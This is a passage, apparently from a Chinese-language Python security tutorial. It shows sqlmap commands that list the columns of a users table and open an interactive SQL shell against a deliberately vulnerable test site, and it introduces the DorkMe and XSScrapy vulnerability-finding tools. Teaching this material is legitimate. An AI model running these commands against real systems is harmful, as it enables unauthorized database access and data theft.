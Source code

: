 ```py
$ python sqlmap.py -u [URL] -D [Database] -T [table] --columns
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" -D acuart -T users --columns
```

在这里，我们从用户表中获取列：

![](img/948d4ea1-9b96-47c7-9ad7-e817d5366bd5.png)

使用此命令，我们可以获得一个交互式 shell：

```py
$ python sqlmap.py -u [URL] --sql-shell
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --sql-shell
```

在这里，我们获得一个与数据库交互的 shell，使用 sql 语言查询：

![](img/18f7991f-639c-4f3a-8c3a-4efdafa79d07.png)

# 其他用于检测 SQL 注入漏洞的工具

在 Python 生态系统中，我们可以找到其他工具，例如 DorkMe 和 Xsscrapy，用于发现 SQL 注入漏洞。

# DorkMe

DorkMe 是一个旨在通过 Google Dorks 更轻松地搜索漏洞的工具，例如 SQL 注入漏洞([`github.com/blueudp/DorkMe`](https://github.com/blueudp/DorkMe))。

您还需要安装`pip install Google-Search-API` Python 包。

我们可以使用`requirements.txt`文件检查依赖项并安装它们：

```py
pip install -r requirements.txt
```

这是脚本提供的选项：

![](img/f3dcb505-a57c-47a1-9d7b-4a38abce9acd.png)

我们可以检查在上一节中使用 sqlmap 的相同`url`。我们可以使用建议用于测试的`--dorks vulns -v`选项参数：

```py
python DorkMe.py --url http://testphp.vulnweb.com/listproducts.php --dorks vulns -v
```

我们可以看到我们获得了高影响力的 SQL 注入漏洞：

![](img/3a242171-0cd7-42ea-b572-43668e9098b0.png)

# XSScrapy

XSScrapy 是基于 Scrapy 的应用程序，允许我们发现 XSS 漏洞和 SQL 注入类型的漏洞。
